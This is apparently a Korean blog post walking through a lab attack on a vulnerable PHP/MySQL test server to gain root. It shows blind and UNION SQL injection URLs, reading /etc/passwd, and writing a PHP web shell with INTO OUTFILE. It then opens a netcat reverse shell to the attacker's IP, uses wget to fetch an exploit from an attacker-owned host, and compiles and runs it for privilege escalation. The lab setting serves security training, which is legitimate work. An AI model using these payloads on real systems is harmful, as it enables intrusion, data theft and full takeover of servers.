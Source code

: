 ```yaml
---
title: "SQL Injection 공격 실습"
categories:
  - Web
tags:
  - Web hacking
  - SQL Injection
  - netcat
  - webshell
comments: true
---
```


SQL Injection 공격을 통해 서버의 root 권한을 획득하는 방법에 대해 기술한다.

> 1. 실습 환경설정
> 2. SQL Injection 취약점 확인 (Blind SQL Injection, Union SQL Injection 이용)
> 3. MYSQL 권한으로, webshell 생성하기
> 4. nc 를 통한 reverse connection
> 5. exploit code 업로드 및 실행을 통한 권한상승


# 1. 실습 환경설정

VMware [Edit]-[Virtual Network Editor]-[VMnet8] 에서 다음과 같이 설정한다.
- Subnet IP : 10.10.10.0
- DHCP Settings - starting ip address : 10.10.10.5
- DHCP Settings - starting ip address : 10.10.10.254

VMware NAT 방식에서 공격대상과 공격자 IP는 다음과 같다.
- 공격대상 서버의 IP : 10.10.10.10
- 공격자 PC 의 IP : 10.10.10.1

<center><p><img src="/assets/2019-01-28-post-web_sql/1.1.jpg"><br>
<em>vmwware 설정</em></p></center>

<center><p><img src="/assets/2019-01-28-post-web_sql/1.2.png"><br>
<em>공격대상 서버 URL : 10.10.10.10/test/</em></p></center>

<center><p><img src="/assets/2019-01-28-post-web_sql/1.3.png"><br>
<em>서비스 계정(id : test, pw : test)</em></p></center>

# 2. SQL Injection 취약점 확인 (Blind SQL Injection, Union SQL Injection)

<center><p><img src="/assets/2019-01-28-post-web_sql/2.png"><br>
<em>서비스 계정(id : test, pw : test)</em></p></center>

로그인 이후, FREE BOARD, **USER BOARD(취약점 존재)**, Q&A BOARD, SERVICE BOARD 등 게시판에서 취약점이 있는지 여부를 확인한다.


## Blind SQL Injection
<p>
10.10.10.10/test/board.php?no=1 and 1=1 (TRUE)
10.10.10.10/test/board.php?no=1 and 1=0 (FALSE)
위 둘의 URL 실행결과가 다른 것을 통해 SQL Injection 공격 취약점이 존재하는 것을 파악할 수 있다.
</p>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.1.1.png"><br>
<em>[10.10.10.10/test/board.php?no=1 and 1=1 결과화면]</em></p></center>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.1.2.png"><br>
<em>[10.10.10.10/test/board.php?no=1 and 1=0 결과화면]</em></p></center>

## Union SQL Injection

> 1) 컬럼개수 파악하기
<p>
http://10.10.10.10/test/board.php?no=0 order by 1 --
http://10.10.10.10/test/board.php?no=0 order by 2 --
~
http://10.10.10.10/test/board.php?no=0 order by 8 -- 까지는 에러가 안뜬다.
http://10.10.10.10/test/board.php?no=0 order by 9 -- 부터 에러가 뜬다.  그러므로, 컬럼은 총 8개이다.
</p>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.1.png"><br>
<em></em></p></center>


> 2) 각각의 컬럼 위치 확인하기
<p>
http://10.10.10.10/test/board.php?no=0 union select 1,2,3,4,5,6,7,8 --
</p>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.2.png"><br>
<em></em></p></center>


> 3) Title 부분에 계정정보 출력하기
<p>
http://10.10.10.10/test/board.php?no=0 union select 1, load_file('/etc/passwd'),3,4,5,6,7,8 --
</p>

<center><p><img src="/assets/2019-01-28-post-web_sql/2.2.3.png"><br>
<em></em></p></center>


# 3. MYSQL 권한으로, webshell 생성하기

> MYSQL 권한으로 Webshell 생성

<div class="notice">
http://10.10.10.10/test/board.php?no=0 union select 1,"<?php system($_GET['cmd']); ?>",3,4,5,6,7,8 into outfile "/usr/local/apache/htdocs/test/shell.php" --
</div>

<center><p><img src="/assets/2019-01-28-post-web_sql/3.1.png"><br>
<em></em></p></center>

> Webshell 동작 확인

<p>
http://10.10.10.10/test/shell.php?cmd=ls
</p>
<center><p><img src="/assets/2019-01-28-post-web_sql/3.2.1.png"><br>
<em></em></p></center>

<p>
http://10.10.10.10/test/shell.php?cmd=ls  (nobody 권한인 것을 확인할 수 있다.)
</p>
<center><p><img src="/assets/2019-01-28-post-web_sql/3.2.2.png"></p></center>

# 4. nc 를 이용한 reverse connection

> 공격자 PC 에서 nc 실행 후, 응답대기

cmd 창 2개 생성
- cmd_1 : nc -l -p 33333, nc 프로그램이 33333 번 포트로 응답대기(33333번 포트는 임의로 설정)
- cmd_2 : netstat -na, 33333 포트가 응답대기인지 확인(프로그램이 제대로 실행되었는지 확인)
<center><p><img src="/assets/2019-01-28-post-web_sql/4.1.1.png"></p></center>

> Web 에서 nc 실행하여, 공격 대상 서버 -> 공격자 PC 로 연결 (reverse connection)

<p>
10.10.10.10/test/shell.php?cmd=nc -e /bin/sh 10.10.10.1 33333 (10.10.10.1 은 공격자 PC ip 주소)
다음과 같이 탭에서 계속 돌고 있는 상황이면 정상적으로 실행이 된 것이다.
</p>
<center><p><img src="/assets/2019-01-28-post-web_sql/4.2.png"></p></center>

> 연결확인

cmd_1 : id (계정정보 확인)

<center><p><img src="/assets/2019-01-28-post-web_sql/4.3.png"></p></center>


# 5. exploit code 업로드 및 실행을 통한 권한상승

> wget 을 통한 익스플로잇 코드 업로드

<p>
공격자 소유의 서버(10.10.10.20)에 있는 exploit code 를, 공격대상이 되는 서버에서 다운로드 하도록 한다. 
10.10.10.10/test/shell.php?cmd=wget http://10.10.10.20/exp.c
</p>
<center><p><img src="/assets/2019-01-28-post-web_sql/5.1.png"></p></center>

> Webshell 에서 exp.c 다운로드 확인

10.10.10.10/test/shell.php?cmd=ls -al
<center><p><img src="/assets/2019-01-28-post-web_sql/5.2.png"></p></center>

> NC 를 통해 (cmd_1)에서 확인
<center><p><img src="/assets/2019-01-28-post-web_sql/5.3.png"></p></center>

>  exploit code 컴파일 후 실행을 통한 권한상승

```1) gcc -o exp exp.c```
<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.1.png"></p></center>

```2) ls -al```
<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.2.png"></p></center>

```3) ./exp  ,  id```
<center><p><img src="/assets/2019-01-28-post-web_sql/5.4.3.png"></p></center>


이상으로 SQL Injection 공격을 이용한 root 권한 획득에 대해 알아보았다.

<br>

{% if page.comments %}

<div id="disqus_thread"></div>
<script>

/**
*  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
*  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables*/
/*
var disqus_config = function () {
this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
};
*/
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://https-c0msherl0ck-github-io.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
                            
{% endif %}
